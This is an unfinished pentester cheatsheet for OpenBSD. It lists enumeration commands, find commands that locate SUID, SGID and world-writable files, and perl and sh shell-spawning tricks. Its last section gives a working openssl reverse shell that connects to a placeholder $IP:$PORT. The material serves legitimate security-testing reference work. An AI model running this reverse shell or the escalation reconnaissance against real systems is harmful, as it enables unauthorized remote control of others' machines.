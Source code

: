 OpenBSD Cheatsheet for Pentesters
=================================

Work in progress warning

Key:
- `#` - Indicates root priveleges are normally needed

Unlike the Linux cheatsheet, the OpenBSD cheatsheet has less variation because of the unified userspace. It assumes that either `-current` or the latest release is being used (`6.4`) at this time.

Information Gathering
---------------------
- `uname -a` - prints the OS information: `OpenBSD pufferphish 6.4 GENERIC.MP#0 amd64`
- `arch` - List the architecture and machine information: `OpenBSD.amd64`
- `machine` - List machine architecture: `amd64`
- `id` - user and group IDs and the corresponding user and group: `uid=1000(cale) gid=1000(cale) groups=1000(cale)`
- `df` - List filesystem mount points. 
- `mount` - list mounted filesystem, check for world writable or writable by user. Additionally, check for the usage of `wxallowed` for mounts not mounted with W^X. `/usr/local` is `wxallowed` in 6.4 
- `last` - print the last logged in users, the time they logged in, and the tty currently in use. Reads from `/var/log/wtmp`
- `env` - print environment variables from ksh.
- `history` - print shell history. shell history on `~/.ksh_history` may not be enabled by default

Sensitive Locations
-------------------
- `/etc/` - common configurations 
- `/var/log/` - system logs
- `$HOME/.kshrc` - ksh rc init file
- `$HOME/.profile` - shell profile

Permissions
-----------
- `find / -type f -perm -o+w` - find world writable files, use `-type d` and use `2>/dev/null` to remove permission denied errors
- `find / -nouser -nogroup` - find files without owner or group
- `find / -perm -4000 ` - find SUID files
- `find / -perm -2000` - find SGID executables/folders
- `find / -type f -perm -0100` - find all executable files

Non-interactive Shell Tricks
----------------------------
- `perl -e 'exec "/bin/sh";'` - full TTY via perl
- `/bin/sh -i` - full interactive TTY

Exfil / Remote Calls
--------------------
- openssl (which is LibreSSL):

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -CAfile /tmp/cert.pem -verify_return_error -verify 1 -connect $IP:$PORT > /tmp/s; rm /tmp/s
```
